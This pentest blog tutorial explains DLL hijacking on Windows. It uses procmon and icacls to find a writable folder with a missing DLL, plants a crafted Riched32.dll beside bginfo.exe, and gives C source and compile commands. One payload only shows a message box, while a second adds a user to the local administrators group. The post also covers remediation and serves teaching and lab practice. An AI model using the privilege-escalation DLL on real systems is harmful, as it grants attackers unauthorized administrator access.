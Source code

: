 ```yaml
---
layout: post
title:  "DLL hijacking in Windows. Simple C example."
date:   2021-09-24 10:00:00 +0600
categories: pentest
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!

![DLL hijacking](/assets/images/8/2021-09-25_12-09.png){:class="img-responsive"}

What is DLL hijacking? DLL hijacking is technique when we tricking a legitimate/trusted application into loading an our malicious DLL.

In Windows environments when an application or a service is starting it looks for a number of DLL's in order to function properly. Here is a diagram showing the default DLL search order in Windows:

![DLL hijacking](/assets/images/8/dllhijack.png){:class="img-responsive"}

In our post, we will only consider the simplest case: the directory of an application is writable. In this case, any DLL loaded by the application can be hijacked because it’s the first location used in the search process.

### Step 1. Find process with missing DLLs

The most common way to find missing Dlls inside a system is running [procmon](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon) from sysinternals, setting the following filters:

![procmon with filters](/assets/images/8/2021-09-25_11-52.png){:class="img-responsive"}

which will identify if there is any DLL that the application tries to load and the actual path that the application is looking for the missing DLL:

![procmon missing dlls](/assets/images/8/2021-09-25_11-53.png){:class="img-responsive"}

In our example, the process `Bginfo.exe` is missing several DLLs which possibly can be used for DLL hijacking. For example `Riched32.dll`

### Step 2. Check folder permissions

Let's go to check folder permissions:
```cmd
icacls C:\Users\user\Desktop\
```

![folder permissions](/assets/images/8/2021-09-25_14-42.png){:class="img-responsive"}

According to the [documentation](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls) we have write access to this folder.   

### Step 3. DLL hijacking

Firstly, let's go to run our `bginfo.exe`:
![run bginfo](/assets/images/8/2021-09-25_11-54.png){:class="img-responsive"}

Therefore if I plant a DLL called `Riched32.dll` in the same directory as `bginfo.exe` when that tool executes so will my malicious code. For simplicity, I create DLL which just pop-up a message box:

```cpp
/*
DLL hijacking example
author: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
      MessageBox(
        NULL,
        "Meow-meow!",
        "=^..^=",
        MB_OK
      );
      break;
    case DLL_PROCESS_DETACH:
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    }
    return TRUE;
}
```

Now we can compile it (on attacker's machine):     

```bash
x86_64-w64-mingw32-gcc -shared -o evil.dll evil.c
```

![compile DLL](/assets/images/8/2021-09-25_11-58.png){:class="img-responsive"}

Then rename as `Riched32.dll` and copy to `C:\Users\user\Desktop\` my malicious DLL.

![replace DLL](/assets/images/8/2021-09-25_14-54.png){:class="img-responsive"}

And now launch `bginfo.exe`:

![run process 1](/assets/images/8/2021-09-25_12-00.png){:class="img-responsive"}

![run process 2](/assets/images/8/2021-09-25_12-04.png){:class="img-responsive"}

As you can see, our malicious logic is executed:

So, `bginfo.exe` and malicious `Riched32.dll` in the same folder **(1)**    
Then launch `bginfo.exe` **(2)**    
Message box is popped-up! **(3)**   

### Remediation

Perhaps the simplest remediation steps would be simply to ensure that all installed software goes into the protected directory `C:\Program Files` or `C:\Program Files (x86)`. If software cannot be installed into these locations then the next easiest thing is to ensure that only Administrative users have "create" or "write" permissions to the installation directory to prevent an attacker from deploying a malicious DLL and thereby breaking the exploitation.

### Privilege escalation

DLL hijacking can be used for more than just executing code. It can also be used to gain persistence and privilege escalation:

Find a process that runs/will run as with other privileges (horizontal/lateral movement) that is missing a dll.   
Have write permission on any folder where the dll is going to be searched (probably the executable directory or some folder inside the system path).   

Then replace our code:
```cpp
/*
DLL hijacking example
author: @cocomelonc
*/

#include <windows.h>

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
      system("cmd.exe /k net localgroup administrators user /add");
      break;
    case DLL_PROCESS_DETACH:
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    }
    return TRUE;
}

```

*For x64 compile with: x86_64-w64-mingw32-gcc evil.c -shared -o target.dll*          
*For x86 compile with: i686-w64-mingw32-gcc evil.c -shared -o target.dll*      

Further, all steps are similar.

### Conclusion

But in all cases, there is a caveat.

Note that in some cases the Dll you compile must export multiple functions to be loaded by the victim process. If these functions do not exist, the binary will not be able to load them and the exploit will fail.

So, compiling custom versions of existing DLLs is more challenging than it may sound, as a lot of executables will not load such DLLs if procedures or entry points are missing. Tools such as [DLL Export Viewer](https://www.nirsoft.net/utils/dll_export_viewer.html) can be used to enumerate all external function names and ordinals of the legitimate DLLs. Ensuring that our compiled DLL follows the same format will maximise the chances of it being loaded successfully.

In the future I will try to figure out this, and I will try create python script which create `.def` file from target original DLL.

[Process Monitor](https://docs.microsoft.com/en-us/sysinternals/downloads/procmon)     
[icacls](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/icacls)    
[DLL Export Viewer](https://www.nirsoft.net/utils/dll_export_viewer.html)      
[Module-Definition (def) files](https://docs.microsoft.com/en-us/cpp/build/reference/module-definition-dot-def-files?view=msvc-160&viewFallbackFrom=vs-2019)

[Source code in Github](https://github.com/cocomelonc/2021-09-24-dllhijack)     

I've added the vulnerable bginfo (version 4.16) to github if you'd like to experiment.

Thanks for your time and good bye!   
*PS. All drawings and screenshots are mine*